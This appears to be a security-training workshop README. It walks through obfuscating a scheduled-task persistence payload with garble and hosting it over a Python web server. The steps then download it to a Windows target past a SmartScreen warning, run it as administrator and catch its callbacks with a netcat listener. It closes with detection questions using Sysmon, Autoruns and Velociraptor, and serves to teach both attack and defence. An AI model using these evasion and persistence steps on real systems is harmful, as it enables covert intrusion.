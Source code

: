 # Scheduled Tasks Workshop Instructions


## Create the payload.

1. In the Attack Desktop, open a terminal, navigate to the  ironcat_attack/c2/ichttpc2 folder.
`cd /home/pslearner/workshop/ironcat_attack/persistence/scheduled_tasks`

2. Notice the already compiled client.exe file.  Check it's md5 hash using md5sum.
`md5sum icschtasks.exe`

3. Now use garble to generate a new version with obfuscation.
`garble -tiny -literals -seed=random build -ldflags='-s -w' icschtasks.go`

4. Time to move the payload over to the Windows Target. Host the file using python http simple server.
`python3 -m http.server`

5. Use the drop down in the top left to connect to the Windows Target device.

6. Open a firefox browser window and browse to http:172.32.14.10:8000

7. Click **icschtasks.exe** to download it to the device.

8. If there are warnings from smart screen, acknoledge them and choose "keep anyway"
Note: this is not the same service as windows defender, it is an artifact of us using the browser to move it over, not the payload being caught by anti-virus.

## Setup Listener And Run Persistence

The payload will generate persistence with a scheduled task and call back out to prove it. But you have to be listening.

1. On the Attacker Desktop, open a new terminal window.
2. Run a net cat listnener on port 666.
`sudo nc -lvnp 666`
3. Switch back to the Windows Target.
4. Use the desktop icon for CMD. Right click, and choose 'Run As Administrator'

5. Change directory to the downloads folder. (This one is a little tricky.)
`cd C:\Users\pslearner.PS-WIN-1\Downloads`

6. Run the payload. With arguments.
`icschtasks.exe 1 1`
Note: Unless something has changed significantly for the worse for my workshop, you should have ZERO notifications from anti-virus.

7. Swap back to your Attack Desktop, inpsect the terminal where you ran the server executable. You will see connections from the persistence after about a minute or so..  It will attempt again every minute or so, you will need to restart the netcat listener to catch it a gain. No interaction is required.

This is clearly simulated, popups would not normally happen, and you wouldn't normally have this much information about what caused the persistence.  Now you should use the tools on the device to track down what exactly is going on here. 

Some tools that may be helpful for this are:
- Sysmon Logs in Windows Event Viewer or with powershell
- Hunt for persistence with Autoruns
- Use velociraptor queires for persistence

Questions you want to answer here include:

What exactly did the executable do?

What are names of files, where are they, and what do they do.

What is the name of the scheduled task, and how could you detect it as malicous in an enterprise environment.

- [IOCs](./schtasks_IOCs.md)


[Become The Threat Home](../../../RSAC23-Become-The-Threat/README.md)